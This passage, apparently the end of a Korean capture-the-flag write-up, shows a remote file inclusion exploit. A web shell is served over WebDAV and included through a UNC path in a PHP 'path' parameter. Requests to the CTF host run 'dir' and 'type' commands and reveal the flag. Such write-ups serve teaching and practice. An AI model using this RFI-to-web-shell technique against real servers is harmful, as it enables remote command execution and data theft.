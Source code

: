 위와 같은 웹쉘을 `phpmailer.lang-ko.php` 라는 파일명으로 저장 후 `WebDav` 서버를 열어줍니다.

![Untitled](/assets/2022-01-01/BISC%2021.png)

위와 같이 `UNC Path` 를 이용하여 `RFI` 취약점을 트리거 시킬 수 있습니다.

```powershell
http://ctf.choiys.kr:1123/api/language.php?code=ko&path=\\choiys.kr@8880\.\&x=dir%20..

C:\Apache24\htdocs 디렉터리

2021-11-26  오후 05:15    <DIR>          .
2021-11-26  오후 05:15    <DIR>          ..
2021-11-25  오후 10:20                26 .gitignore
2021-11-25  오후 10:20    <DIR>          api
2021-11-25  오후 10:20                69 composer.json
2021-11-26  오후 05:15             3,715 composer.lock
2021-11-25  오후 10:32                33 here_is_the_flag_4f420291c9fdd431c40aa30b2ff334f0.txt
2021-11-25  오후 10:20               459 index.php
2021-11-25  오후 10:20                56 phpinfo.php
2021-11-25  오후 10:20                 8 README.md
2021-11-25  오후 10:20    <DIR>          static
2021-11-25  오후 10:20    <DIR>          template
2021-11-26  오후 05:15    <DIR>          vendor
```

상위 경로로 이동하면 위와 같이 플래그 파일이 존재하는 것을 확인할 수 있습니다.

```powershell
http://ctf.choiys.kr:1123/api/language.php?code=ko&path=\\choiys.kr@8880\.\&x=type%20..\here_is_the_flag_4f420291c9fdd431c40aa30b2ff334f0.txt

BISC{now_you_know_EaSSI_is_34551}{"result":true}
```

`FLAG : BISC{now_you_know_EaSSI_is_34551}`

# 3. 마치며

---
